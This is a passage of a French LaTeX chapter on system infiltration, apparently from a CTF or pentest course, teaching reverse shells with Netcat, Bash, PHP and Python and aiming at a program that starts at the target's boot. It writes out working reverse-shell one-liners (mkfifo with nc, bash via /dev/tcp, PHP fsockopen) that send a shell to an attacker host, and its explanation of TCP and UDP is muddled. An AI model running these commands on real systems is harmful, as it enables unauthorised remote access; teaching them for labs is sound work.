\chapter{Infiltration système}
\label{chap:BDD}

\section{Reverse-shell}

\subsection{Définition}

Le reverse-shell qui signifie shell inversé est le moyen le plus fiable d’accéder aux données de la cible et de devenir administrateur de cette dernière. Cette technique consiste à faire parvenir au hacker un shell via un serveur ouvert et ainsi contourner toutes les sécurités mises en place. Cependant, avant de comprendre comment fonctionne un reverse-shell, il va nous falloir étudier un shell.\\
Comme on peut le voir sur les systèmes d’exploitations installés sans GUI (Graphical User Interface), notre seul moyen de communiquer avec la machine est un invite de commande. Cet interpréteur de commande nous permet d’exécuter des commandes qui sont elles mêmes des scripts capables d’afficher le résultat de la commande saisie à l’écran. Cet interpréteur est donc un programme que l’on nomme shell. Il ne faut pas confondre le shell avec le kernel qui est le noyau du système d’exploitation. Le shell permet donc à l’utilisateur d’exploiter ce noyau à travers des lignes de commandes.
Nous pouvons alors synthétiser ceci en disant que le shell permet à l‘utilisateur de demander quelque chose à son noyau.
Nous pouvons, grâce à cette définition comprendre le fonctionnement du reverse-shell soit du shell-inversé.\\
Le reverse-shell consiste à inverser les commandes de sorties et d'entrées du shell afin que ce soit au noyau de nous demander des informations pour afficher des résultats, et non l’inverse.
Ainsi, les requêtes seront envoyées de la machine cible, passeront le firewall s’il existe, et arriveront à notre machine. Nous aurons alors la possibilité, comme sur un formulaire web, de remplir nos informations et de les renvoyer au serveur comme une simple réponse avec une très grande conséquence.
Ce sera donc par ce moyen que nous arriverons à contourner les sécurités et nous introduire dans le système cible.\\
Maintenant que nous avons introduit le concept du reverse-shell, il est venu le temps de présenter l’aspect technique de ce dernier.

\subsection{Fonctionnement}

\subsection{Les étapes d'un reverse-shell}

Lors d’une attaque sur CTF ou lors d’une réelle séance de hacking, il existe plusieurs grandes étapes obligatoires à passer comme vous l’avez vu lors des chapitres précédents. La détection et l’exploitation d’une faille va en général nous permettre d’écrire dans le langage informatique exploité. Il est important de savoir que tous les langages informatiques se doivent de parler avec le kernel afin de fonctionner. Il est donc essentiel  à un langage de pouvoir exploiter des lignes de commandes. Nous passerons donc principalement par cette voie pour ouvrir notre port TCP ou UDP sur la machine cible. Cependant, pour qu’une connexion se mette en place et que le socket fonctionne, il est important que notre machine écoute sur le port que nous allons ouvrir. Ce pourquoi nous allons introduire le logiciel Netcat.

\subsubsection{NetCat}

Netcat est un logiciel réseau permettant l’ouverture de ports et le scan de ports en TCP et UDP. Surnommé “Le couteau suisse TCP”,  cet utilitaire polyvalent et discret est utilisé en arrière plan d’autres applications afin d’effectuer des recherches de ports par exemple. Cependant, son  principale rôle est l’ouverture de socket entre un client et un serveur.
Un socket est la combinaison de l’adresse IP et du port permettant à un programme de communiquer avec autre un programme, distant, sur une machine spécifique. 
Donc Netcat va nous permettre de créer un socket ou d’écouter sur l’un de nos ports. C’est la deuxième option qui va nous intéresser dans un premier temps, lors d’un reverse-shell. En effet, Netcat va pouvoir écouter ce que le shell cible va lui renvoyer sur un port bien spécifique :

\begin{figure}[htp!]
  \centering
  \setlength\figureheight{7cm}
  \setlength\figurewidth{9cm}
  
\includegraphics[width=0.6\textwidth]{oui/Screens/Reverse-shell/netcat_lvp.PNG}
  \caption{Ecoute de port Netcat}
  \label{fig:courbe-tikz}
\end{figure}

Comme on peut le voir ci-dessus, Netcat peut être noté ‘nc’. Avec les options associées à Netcat, on s’aperçoit que le programme écoute de la part de tout le monde sur le port 5555.
Regardons ces options de plus près :\\
1) ‘ -l ‘ pour listen, est l’option de nc permettant d’activer le mode écoute.\\
2) ‘-v ‘ ou ‘-vv’ est le mode verbose. Cela signifie qu’il va afficher toutes les informations de retour telles que : “listening on [any] 5555 . . . “\\
3) ‘-p’ est l’option d’ouverture de ports.\\
Une fois cette commande lancée, nous pourrons laisser de côté ‘ nc -l ’ et nous focaliser sur l’ouverture du reverse-shell sur la machine cible.\\
En cas d'échec de connexion, il se pourrait que la cible n'ai pas la bonne version de Netcat. Il est possible de contourner le problème en réalisant la commande suivante dans la faille :
\begin{center}
    \textbf{rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f}
\end{center}
Comme nous l’avons vu précédemment, il faut avoir trouvé une faille pour mettre en place un reverse-shell. Il existe donc des reverse-shell qui seront plus faciles à ouvrir dans certaines situations que d’autres. Netcat fait partie, comme nous l’avons vu plus tôt, des reverse-shell car il peut créer un socket en envoyant le shell à un utilisateur distant. C’est pourquoi nous allons nous intéresser aux différents types de reverse-shell.

\subsection{Différents types de reverse-shell}

\subsubsection{Netcat-reverse}

Imaginons qu’une faille nous permette d’utiliser un ‘ echo ‘ dans le terminal cible, nous pourrons alors appliquer netcat en ouverture de ports comme ci-dessous :\\

\begin{figure}[htp!]
  \centering
  \setlength\figureheight{9cm}
  \setlength\figurewidth{7cm}
  
\includegraphics[width=1\textwidth]{oui/Screens/Reverse-shell/reverse_netcat.PNG}
  \caption{Reverse Netcat en localhost}
  \label{fig:courbe-tikz}
\end{figure}

L’option ‘ -e ‘ ou ‘ -c ‘ de Netcat va nous permettre d'exécuter un programme chez un utilisateur distant sur un port donné. Ici, le programme annoncé est : ‘ /bin/sh ‘, soit le shell.\\
Ce type de reverse-shell est extrêmement rapide à mettre en place dès qu’une faille est apparente car les commandes sont intuitives. Cependant, l’attaquant ne reçoit aucune informations au niveau du ‘ tty ‘. Un ‘ tty ‘ est une console virtuelle qui permet de taper des lignes de commandes. Il va donc falloir l’importer afin d’obtenir un reverse-shell digne de ce nom :

\begin{figure}[htp!]
  \centering
  \setlength\figureheight{9cm}
  \setlength\figurewidth{7cm}
  
\includegraphics[width=1\textwidth]{oui/Screens/Reverse-shell/tty_importation_python.PNG}
  \caption{Importation d'un TTY}
  \label{fig:courbe-tikz}
\end{figure}

Pour remédier à ce problème, nous avons importer des commandes shell grâce à Python. Python est un langage informatique basé sur le C. Son argument ‘ -c ‘ va nous permettre de directement taper du Python sur la même ligne de commande. Le code qui suit est très simple car son fonctionnement est sa propre lecture traduite en français. Ceci nous donne : “ Importe le module pty puis, dans ce dernier, utilise la fonction spawn (faire apparaître) avec l’option ‘ /bin/bash ‘. Donc le module ‘ pty ‘ intègre une fonction qui permet de faire afficher des pseudo-terminaux avec le type de shell que l’on souhaite. Ici, nous avons choisi un bash-shell.\\
Nous obtenons à partir de ce point un bash-shell qui correspond au terminal de la cible.
Nous nous sommes, à partir de ce moment précis, introduits pour la première fois au sein d’une machine cible !

\subsubsection{Bash TCP}

Au sein de cette partie, nous allons utiliser du bash avec une ouverture de port sur un serveur TCP comme ceci :

\begin{center}
    \textbf{bash -i >\& /dev/tcp/ip attaquant/port écoute 0>\&1}
\end{center}

\newpage
Voici un cas d’application réel de ce reverse :
\begin{figure}[htp!]
  \centering
  \setlength\figureheight{9cm}
  \setlength\figurewidth{7cm}
  
\includegraphics[width=1\textwidth]{oui/Screens/Reverse-shell/Bash_reverse/localhost_bash_tcp_basique.PNG}
  \caption{Reverse Bash localhost}
  \label{fig:courbe-tikz}
\end{figure}

On peut voir ici qu’en appliquant le reverse bash TCP sur la cible, nous avons pu nous connecter grâce à l’écoute de Netcat au shell ciblé.\\
Mais que signifie cette commande rentrée dans la machine cible ?\\
L’option ‘-i>&’ va nous permettre de retourner un bash interactif soit être en mode connecté.\\
‘/dev/tcp/ip attaquant/port écoute’ va annoncer à la cible à qui envoyer ce bash interactif et sur quel port à travers un socket TCP.\\
‘0>&1’ va nous permettre d’inverser les entrées et les sorties et ainsi créer le reverse-shell.
Nous nous sommes ainsi introduits via le protocole TCP en bash dans la machine cible.
Le protocole TCP est souvent associé au protocole UDP car ils sont presque similaires. La plus grosse différence, qui est majeure, est que TCP est en mode connecté et UDP en mode non connecté. Le mode connecté est un mode d'envoi et de réception de fichier qui a un " accusé-réception". Ceci signifie que le message est éparpillé dans le réseau en plusieurs paquets, avec un numéro qui leur est propre, et arrive chez le destinataire dans un ordre non défini. Cette méthode nécessite donc au destinataire de recomposer le message et de vérifier que tous les paquets sont bien arrivés. Si ce n'est pas le cas, ce dernier va pouvoir demander à l'envoyeur de lui renvoyer le ou les paquets manquants. C'est ce que l'on nomme le mode connecté. Le protocole UDP va se baser sur le mode non connecté. Cette méthode est l'équivalent du temps réel et se doit donc d'avoir une interaction directe entre les deux machines. Le message ne pourra donc pas être découpé ce qui implique un renvoi complet de ce dernier s'il est incomplet à la réception. Le protocole UDP est principalement utilisé dans les applications en temps réels car son faible temps de latence permet d'accéder aux contenus rapidement. Cependant, en ce qui concerne le reverse-shell, UDP n'est vraiment pas conseillé car ce protocole, ne vérifiant pas l'intégrité des trames, pourrait nous faire penser que nous nous sommes trompés alors que c'est UDP qui n'est pas fiable. C'est pour cette raison que TCP sera utilisé en reverse-shell.

\newpage
\subsubsection{PHP}

Le PHP est un langage de programmation Web couramment utilisé pour dialoguer avec la base de données ainsi que pour sécuriser les sites. A titre d'exemple, le HTML va permettre de créer un formulaire que l'utilisateur va remplir. Le PHP sera présent pour vérifier que toutes les conditions ont été respectées afin de valider le formulaire. On s'aperçoit donc que l'utilisateur communique directement avec le PHP. Il y donc des possibilités de réaliser des reverse-shell dans ce langage.\\
Nous pouvons tester le code PHP en localhost comme ceci :

\begin{figure}[htp!]
  \centering
  \setlength\figureheight{9cm}
  \setlength\figurewidth{7cm}
  
\includegraphics[width=1\textwidth]{oui/Screens/Reverse-shell/PHP/php-reverse.PNG}
  \caption{PHP-reverse}
  \label{fig:courbe-tikz}
\end{figure}

Le code PHP est le suivant :

\begin{center}
    \textbf{php -r '\$s=fsockopen("<IP>",<PORT>);exec("/bin/sh -i <&3 >&3 2>&3");'}
\end{center}

Regardons ensemble cette commande afin de la comprendre :\\
- 'php -r' va nous permettre d'exécuter du code PHP en ligne de commande.\\
- '\$s=fsockopen("<IP>",<PORT>);' cette commande a pour but, à travers la variable \$s, d'ouvrir un socket grâce à la fonction fsockopen().\\
- 'exec ()' est une fonction PHP permettant d'écrire dans le cmd.\\

Il est donc assez facile de réaliser un reverse-shell en PHP si l'administrateur web n'a pas réaliser correctement son travail au niveau des failles XSS.

\subsubsection{Python}

Au cours de cette partie, nous allons nous pencher sur le reverse-shell via le langage Python. Ce langage, basé principalement sur le C, se démocratise de plus en plus aujourd'hui. Certes, ce langage est lent, mais il va nous permettre grâce à sa grande ouverture d'exploiter toutes les failles informatiques.\\

\newpage
Voyons un cas concret sur un reverse en localhost :

\begin{figure}[htp!]
  \centering
  \setlength\figureheight{9cm}
  \setlength\figurewidth{7cm}
  
\includegraphics[width=1\textwidth]{oui/Screens/Reverse-shell/Python/python-reverse.PNG}
  \caption{Python-reverse}
  \label{fig:courbe-tikz}
\end{figure}

Comme on peut le voir ci-dessus, le code est assez important. C'est pourquoi il est plus simple de le visualiser sous un éditeur de texte :

\begin{figure}[htp!]
  \centering
  \setlength\figureheight{9cm}
  \setlength\figurewidth{7cm}
  
\includegraphics[width=1\textwidth]{oui/Screens/Reverse-shell/Python/python_code.PNG}
  \caption{Python-reverse}
  \label{fig:courbe-tikz}
\end{figure}

Nous comprenons alors qu'un script peut être créé assez facilement afin d'invoquer un reverse-shell chez une cible. Le code peut être lancé soit directement dans un invite de commande soit en invoquant un programme existant chez la cible comme nous l'avons fait ci-dessus. Nous allons donc créer notre propre programme en python pour effectuer un reverse-shell chez la cible.

\subsection{Création d'une invocation de reverse-shell}

L'objectif de cette partie va être de créer un programme se lançant au démarrage de la machine cible qui invoque un reverse-shell jusqu'à notre machine attaquante. Il va donc y avoir deux programmes :\\
- Le programme serveur remplaçant Netcat.\\
- Le programme client qui sera notre reverse-shell.\\

\newpage
Voici les codes de chacun commentés :

\begin{figure}[htp!]
  \centering
  \setlength\figureheight{9cm}
  \setlength\figurewidth{7cm}
  
\includegraphics[width=1\textwidth]{oui/Screens/Reverse-shell/creation-reverse/server.PNG}
  \caption{Code programme serveur}
  \label{fig:courbe-tikz}
\end{figure}

\begin{figure}[htp!]
  \centering
  \setlength\figureheight{9cm}
  \setlength\figurewidth{7cm}
  
\includegraphics[width=1\textwidth]{oui/Screens/Reverse-shell/creation-reverse/client.PNG}
  \caption{Code programme client}
  \label{fig:courbe-tikz}
\end{figure}

\newpage
Comme on peut le voir ci-dessous, le résultat est assez concluant :

\begin{figure}[htp!]
  \centering
  \setlength\figureheight{9cm}
  \setlength\figurewidth{7cm}
